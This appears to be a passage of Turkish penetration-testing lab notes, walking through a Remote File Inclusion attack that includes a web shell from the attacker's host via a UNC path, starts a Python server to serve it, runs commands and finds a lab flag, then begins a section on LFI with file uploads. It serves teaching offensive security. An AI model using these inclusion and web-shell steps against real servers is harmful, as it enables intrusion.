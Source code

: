 
Şimdi, bir UNC yolu kullanarak (örneğin \\<OUR_IP>\share\shell.php) scriptimizi ekleyebilir ve komutu daha önce yaptığımız gibi (&cmd=whoami) ile belirtebiliriz:

![Pasted image 20241118021826.png](/img/user/resimler/Pasted%20image%2020241118021826.png)

Gördüğümüz gibi, bu saldırı remote script'imiz de dahil olmak üzere çalışmaktadır ve varsayılan olmayan ayarların etkinleştirilmesine gerek yoktur. Ancak, Windows sunucu yapılandırmalarına bağlı olarak internet üzerinden remote SMB sunucularına erişim varsayılan olarak devre dışı bırakılmış olabileceğinden, aynı ağ üzerindeysek bu tekniğin işe yarama olasılığının daha yüksek olduğunu belirtmeliyiz.

Soru : Hedefe saldırın, RFI güvenlik açığından yararlanarak komut yürütme elde edin ve ardından / dizinlerinden birinin altındaki bayrağı arayın.
Cevap : 

1- Öncelikle web sunucumuzu başlatalım

`sudo python3 -m http.server 443`

2- Web shelimizi oluşturalım . ( Bir sorun cıkmaması için web shell’imizi /var/www/html/ yoluna koyalım bu python sunucumuzun çalıştığı konum)

![Pasted image 20241118022027.png](/img/user/resimler/Pasted%20image%2020241118022027.png)

3 - id komutunu çalıştıralım hedef sistemde . Web shellimizin çalışıp çalışmadığını anlamak için

![Pasted image 20241118022129.png](/img/user/resimler/Pasted%20image%2020241118022129.png)

![Pasted image 20241118022135.png](/img/user/resimler/Pasted%20image%2020241118022135.png)

4- Komutumuz çalıştı ls / ile flag dosyamızı arayabiliriz fakat daha kolay yolu find komutu ile dosyamızın adresini bulmaktır .

![Pasted image 20241118022150.png](/img/user/resimler/Pasted%20image%2020241118022150.png)

![Pasted image 20241118022153.png](/img/user/resimler/Pasted%20image%2020241118022153.png)

5- Flag dosyasının yerini öğrendik son olarak cat ile okuma işlemini yapalım ve sorumuzu cevaplayalım .

![Pasted image 20241118022159.png](/img/user/resimler/Pasted%20image%2020241118022159.png)

# LFI and File Uploads

İlk bölümde belirtildiği gibi, aşağıdakiler dosya ekleme ile kod çalıştırmaya izin veren fonksiyonlardır ve bunlardan herhangi biri bu bölümdeki saldırılarla çalışabilir:

![Pasted image 20241118023545.png](/img/user/resimler/Pasted%20image%2020241118023545.png)

### Resim yükleme
Çoğu modern web uygulamasında resim yükleme çok yaygındır, çünkü yükleme işlevi güvenli bir şekilde kodlanmışsa resim yüklemek yaygın olarak güvenli kabul edilir. Ancak, daha önce de belirtildiği gibi, bu durumda güvenlik açığı dosya yükleme formunda değil, dosya ekleme işlevindedir.
